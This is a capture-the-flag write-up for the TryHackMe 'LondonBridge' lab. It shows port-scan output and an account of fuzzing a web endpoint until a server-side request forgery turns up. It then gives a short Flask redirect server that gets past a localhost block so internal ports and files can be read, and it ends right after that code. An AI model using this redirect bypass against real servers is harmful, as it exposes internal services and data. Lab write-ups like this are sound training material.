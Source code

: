 ----------------

### CTF: THM
### Lab: LondonBridge

---------------

![image](https://github.com/user-attachments/assets/9fc3a6b2-580f-4581-a574-c403b9d47b7c)

---------------

- Rustscan's output
      
      ❯ rustscan -a 10.10.227.38 -- -Pn -sC -sV
      .----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
      | {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
      | .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
      `-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
      The Modern Day Port Scanner.
      ________________________________________
      : https://discord.gg/GFrQsGy           :
      : https://github.com/RustScan/RustScan :
       --------------------------------------
      🌍HACK THE PLANET🌍
      
      [~] The config file is expected to be at "/home/sensei/.rustscan.toml"
      [!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
      [!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
      Open 10.10.227.38:22
      Open 10.10.227.38:8080
      [~] Starting Script(s)
      [>] Script to be run Some("nmap -vvv -p {{port}} {{ip}}")
      
      Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
      [~] Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-05 06:23 WAT
      NSE: Loaded 156 scripts for scanning.
      NSE: Script Pre-scanning.
      NSE: Starting runlevel 1 (of 3) scan.
      Initiating NSE at 06:23
      Completed NSE at 06:23, 0.00s elapsed
      NSE: Starting runlevel 2 (of 3) scan.
      Initiating NSE at 06:23
      Completed NSE at 06:23, 0.00s elapsed
      NSE: Starting runlevel 3 (of 3) scan.
      Initiating NSE at 06:23
      Completed NSE at 06:23, 0.00s elapsed
      Initiating Parallel DNS resolution of 1 host. at 06:23
      Completed Parallel DNS resolution of 1 host. at 06:23, 0.05s elapsed
      DNS resolution of 1 IPs took 0.05s. Mode: Async [#: 1, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
      Initiating Connect Scan at 06:23
      Scanning 10.10.227.38 [2 ports]
      Discovered open port 8080/tcp on 10.10.227.38
      Discovered open port 22/tcp on 10.10.227.38
      Completed Connect Scan at 06:23, 0.19s elapsed (2 total ports)
      Initiating Service scan at 06:23
      Scanning 2 services on 10.10.227.38
      Completed Service scan at 06:25, 124.91s elapsed (2 services on 1 host)
      NSE: Script scanning 10.10.227.38.
      NSE: Starting runlevel 1 (of 3) scan.
      Initiating NSE at 06:25
      Completed NSE at 06:25, 15.69s elapsed
      NSE: Starting runlevel 2 (of 3) scan.
      Initiating NSE at 06:25
      Completed NSE at 06:26, 2.05s elapsed
      NSE: Starting runlevel 3 (of 3) scan.
      Initiating NSE at 06:26
      Completed NSE at 06:26, 0.00s elapsed
      Nmap scan report for 10.10.227.38
      Host is up, received user-set (0.19s latency).
      Scanned at 2024-11-05 06:23:38 WAT for 143s
      
      PORT     STATE SERVICE    REASON  VERSION
      22/tcp   open  ssh        syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
      | ssh-hostkey: 
      |   2048 58:c1:e4:79:ca:70:bc:3b:8d:b8:22:17:2f:62:1a:34 (RSA)
      | ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDziNs6aSHIQOJFilv8PhCPd676iD1TrhMYe4p4Mj2E3yaAl4xb8DNT2dhpcv6H8EvtCJnAbXmnFTTOZy14fd7FKc2/Mr4MNLsINFpMU8hc85g6S9ZEnWKlU8dw5jUUeZnAbHSTnq6ARvEbT/Y5seiWEJ7IBiUqptlUA2eiOU7g0DFwrYH7n40aDe0m6PKPIfI9G0XO0cJHISeJ0bsSES1uun2WHLM0sRx+17hrBgM2YfD9OevcltVMlQqWasP9lqf2ooOdBvQTq4eH5UyyuEzaRtQwBYP/wWQEVFacejJE1iT2VD6ZAilhlzo9mww9vqTEwGTvatH65wiyCZHMvrSb
      |   256 2a:b4:1f:2c:72:35:7a:c3:7a:5c:7d:47:d6:d0:73:c8 (ECDSA)
      | ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBJuZrGZxDIlI4pU1KNZ8A87cWFcgHxRSt7yFgBtJoUQMhNmcw8FSVC54b7sBYXCgBsgISZfWYPjBM9kikh8Jnkw=
      |   256 1c:7e:d2:c9:dd:c2:e4:ac:11:7e:45:6a:2f:44:af:0f (ED25519)
      |_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAICkCeqFADY/YvhJyJabcs5DVTYbl/DEKEpBoluTuDdB1
      8080/tcp open  http-proxy syn-ack gunicorn
      | http-methods: 
      |_  Supported Methods: OPTIONS GET HEAD
      |_http-title: Explore London
      |_http-server-header: gunicorn
      | fingerprint-strings: 
      |   GetRequest: 
      |     HTTP/1.0 200 OK
      |     Server: gunicorn
      |     Date: Tue, 05 Nov 2024 10:16:11 GMT
      |     Connection: close
      |     Content-Type: text/html; charset=utf-8
      |     Content-Length: 2682
      |     <!DOCTYPE html>
      |     <html lang="en">
      |     <head>
      |     <meta charset="UTF-8">
      |     <meta name="viewport" content="width=device-width, initial-scale=1.0">
      |     <title>Explore London</title>
      |     <style>
      |     body {
      |     font-family: Arial, sans-serif;
      |     margin: 0;
      |     padding: 0;
      |     background-color: #f2f2f2;
      |     header {
      |     background-color: #333;
      |     color: #fff;
      |     padding: 10px 20px;
      |     text-align: center;
      |     background-color: #444;
      |     color: #fff;
      |     padding: 10px 20px;
      |     text-align: center;
      |     color: #fff;
      |     text-decoration: none;
      |     margin: 0 10p
      |   HTTPOptions: 
      |     HTTP/1.0 200 OK
      |     Server: gunicorn
      |     Date: Tue, 05 Nov 2024 10:16:11 GMT
      |     Connection: close
      |     Content-Type: text/html; charset=utf-8
      |     Allow: OPTIONS, GET, HEAD
      |_    Content-Length: 0
      1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
      SF-Port8080-TCP:V=7.94SVN%I=7%D=11/5%Time=6729ABE1%P=x86_64-pc-linux-gnu%r
      SF:(GetRequest,B15,"HTTP/1\.0\x20200\x20OK\r\nServer:\x20gunicorn\r\nDate:
      SF:\x20Tue,\x2005\x20Nov\x202024\x2010:16:11\x20GMT\r\nConnection:\x20clos
      SF:e\r\nContent-Type:\x20text/html;\x20charset=utf-8\r\nContent-Length:\x2
      SF:02682\r\n\r\n<!DOCTYPE\x20html>\n<html\x20lang=\"en\">\n<head>\n\x20\x2
      SF:0\x20\x20<meta\x20charset=\"UTF-8\">\n\x20\x20\x20\x20<meta\x20name=\"v
      SF:iewport\"\x20content=\"width=device-width,\x20initial-scale=1\.0\">\n\x
      SF:20\x20\x20\x20<title>Explore\x20London</title>\n\x20\x20\x20\x20<style>
      SF:\n\x20\x20\x20\x20\x20\x20\x20\x20body\x20{\n\x20\x20\x20\x20\x20\x20\x
      SF:20\x20\x20\x20\x20\x20font-family:\x20Arial,\x20sans-serif;\n\x20\x20\x
      SF:20\x20\x20\x20\x20\x20\x20\x20\x20\x20margin:\x200;\n\x20\x20\x20\x20\x
      SF:20\x20\x20\x20\x20\x20\x20\x20padding:\x200;\n\x20\x20\x20\x20\x20\x20\
      SF:x20\x20\x20\x20\x20\x20background-color:\x20#f2f2f2;\n\x20\x20\x20\x20\
      SF:x20\x20\x20\x20}\n\x20\x20\x20\x20\x20\x20\x20\x20header\x20{\n\x20\x20
      SF:\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20background-color:\x20#333;\n\x2
      SF:0\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20color:\x20#fff;\n\x20\x20\
      SF:x20\x20\x20\x20\x20\x20\x20\x20\x20\x20padding:\x2010px\x2020px;\n\x20\
      SF:x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20text-align:\x20center;\n\x20
      SF:\x20\x20\x20\x20\x20\x20\x20}\n\x20\x20\x20\x20\x20\x20\x20\x20nav\x20{
      SF:\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20background-color:\x20
      SF:#444;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20color:\x20#fff;\
      SF:n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20padding:\x2010px\x2020
      SF:px;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20text-align:\x20cen
      SF:ter;\n\x20\x20\x20\x20\x20\x20\x20\x20}\n\x20\x20\x20\x20\x20\x20\x20\x
      SF:20nav\x20a\x20{\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20color:
      SF:\x20#fff;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20text-decorat
      SF:ion:\x20none;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20margin:\
      SF:x200\x2010p")%r(HTTPOptions,B3,"HTTP/1\.0\x20200\x20OK\r\nServer:\x20gu
      SF:nicorn\r\nDate:\x20Tue,\x2005\x20Nov\x202024\x2010:16:11\x20GMT\r\nConn
      SF:ection:\x20close\r\nContent-Type:\x20text/html;\x20charset=utf-8\r\nAll
      SF:ow:\x20OPTIONS,\x20GET,\x20HEAD\r\nContent-Length:\x200\r\n\r\n");
      Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

- FFUF's directory scan

![image](https://github.com/user-attachments/assets/0c475fb2-a5af-4129-a7c0-2453d2740f36)


- I tried the `view_image` route and got a 500 error when I tried the `GET` method.I tried the `POST` method and discovered it required the `image_url` parameter.Then,I tried to load a url to see the output but it just reflects it back.

![image](https://github.com/user-attachments/assets/22d97295-dc4e-4ffe-80ab-c1711b24da43)

- I fuzzed for more parameter with burp suite.I intercepted the curl request with burpsuite.

![image](https://github.com/user-attachments/assets/5742d7bf-fa9f-41f8-bcab-52313e411f68)

- Then,I fuzzed for params with `Burp Intruder`.I used the wordlist `common.txt` to fuzz.I got the param `www` which successfully loaded the url of the target.The endpoint is vulnerable to server side request forgery.

![image](https://github.com/user-attachments/assets/ff84ede2-75e2-4af1-b4a7-50307d8d9c03)

- I tried to load localhost and see if I can fuzz for internal ports but I got the `403` error.

![image](https://github.com/user-attachments/assets/a731fa11-a793-4eb9-8f0a-9cb9159ea031)

- I bypassed the 403 error by setting up a site which redirects to the localhost url.I exploited this by setting up a Flask server with the code below.The index page takes in 2 params which is the `port` and `file`.The port serves as the internal port we want to load,while the `file` param signifies the file that we want to read.

```python3
#! /usr/bin/env python3
from flask import Flask, redirect,request
from urllib.parse import quote
app = Flask(__name__)    

@app.route('/',methods=['GET'])    
def root():
    port = request.args.get("port")
    file = request.args.get("file")
    if file != None:
        url =  f"http://127.0.0.1:{port}/{file}"
    else:
        url = f"http://127.0.0.1:{port}/"
    return redirect(url, code=301)
    
if __name__ == "__main__":
    app.run(host="<ip>", port=8080)
```

-












